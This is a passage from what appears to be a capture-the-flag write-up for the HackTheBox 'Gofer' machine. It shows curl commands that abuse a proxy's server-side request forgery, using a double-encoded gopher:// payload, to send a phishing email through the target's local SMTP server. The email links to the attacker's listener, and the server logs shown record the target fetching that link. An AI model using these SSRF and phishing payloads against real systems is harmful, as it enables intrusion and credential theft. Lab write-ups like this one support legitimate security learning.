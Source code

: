 Note that the quotes on our href has only been urldecoded once ...not sure exactly what happened there, tried to fix it with single quotes
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253D%2527http%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%2527%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as B9C72816D
221 2.0.0 Bye
1
```

Same but different
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.11.225 - - [13/Aug/2023 19:58:59] "GET /index.html%22 HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 19:59:00] "GET / HTTP/1.1" 200 -
10.10.11.225 - - [13/Aug/2023 20:04:00] "GET /index.html' HTTP/1.1" 302 -
10.10.11.225 - - [13/Aug/2023 20:04:00] "GET / HTTP/1.1" 200 -
```

Googling around, I found that quotes in html tags are not actually a requirement, and could confirm on my own machine that a simple href tag without the quotes works just fine. So let's try that.

```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://0x7f000001:25/_HELO%252010%252E10%252E11%252E225%250D%250AMAIL%2520FROM%253A%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ARCPT%2520TO%253A%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADATA%250D%250AFrom%253A%2520%255BDennis%2520Nedry%255D%2520%253Cdnedry%2540gofer%252Ehtb%253E%250D%250ATo%253A%2520%253Cjhudson%2540gofer%252Ehtb%253E%250D%250ADate%253A%2520Sun%252C%252013%2520Aug%25202023%252018%253A20%253A26%2520%252D0400%250D%250ASubject%253A%2520AH%2520AH%2520AH%250D%250A%250D%250A%253Ca%2520href%253Dhttp%253A%252F%252F10%252E10%252E14%252E218%253A9090%252Findex%252Ehtml%253Epliz%2520coulick%253C%252Fa%253E%250D%250A%250D%250A%250D%250A%252E%250D%250AQUIT%250D'
<!-- Welcome to Gofer proxy -->
220 gofer.htb ESMTP Postfix (Debian/GNU)
250 gofer.htb
250 2.1.0 Ok
250 2.1.5 Ok
354 End data with <CR><LF>.<CR><LF>
250 2.0.0 Ok: queued as E9B76816D
221 2.0.0 Bye
1
```
